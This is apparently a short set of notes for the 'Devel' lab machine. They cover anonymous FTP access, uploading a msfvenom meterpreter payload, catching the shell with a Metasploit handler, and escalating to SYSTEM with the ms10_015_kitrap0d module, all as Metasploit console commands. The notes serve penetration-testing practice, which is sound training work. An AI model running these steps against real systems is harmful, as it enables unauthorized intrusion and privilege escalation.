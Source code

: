 # Devel
- nmap
    - Discovered anonymous FTP
        - `ftp 10.10.10.5` user: `anonymous` passowrd: anything.
- msfvenom to build a meterpreter
- upload it via ftp
- start msfconsole to listen
- visit the page to trigger 
```
msf exploit(multi/handler) > search suggest
msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > run  
```
## Get a shell
```
msf exploit(windows/local/ms10_015_kitrap0d) > use exploit/multi/handler
msf exploit(multi/handler) > run
```
- Browse the page to spawn the shell
```
meterpreter > background
msf exploit(multi/handler) > sessions
```
## Get an elevated shell
```
msf exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(windows/local/ms10_015_kitrap0d) > show options
msf exploit(windows/local/ms10_015_kitrap0d) > set session 4
msf exploit(windows/local/ms10_015_kitrap0d) > run
meterpreter > shell
c:\windows\system32\inetsrv>whoami
```